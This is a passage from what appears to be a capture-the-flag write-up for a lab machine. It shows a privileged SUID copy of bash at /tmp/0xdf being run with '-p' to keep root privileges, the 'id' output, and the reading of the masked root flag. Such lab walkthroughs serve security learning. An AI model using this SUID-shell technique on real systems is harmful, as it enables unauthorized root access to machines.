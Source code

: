 

Running it (with `-p` to not drop privs) gives a shell with euid of
root:



    will@catch:/opt/mdm$ /tmp/0xdf -p
    0xdf-5.0# id
    uid=1000(will) gid=1000(will) euid=0(root) groups=1000(will)



That's enough to read the flag:



    0xdf-5.0# cd /root
    0xdf-5.0# cat root.txt
    ac5a5ae9************************







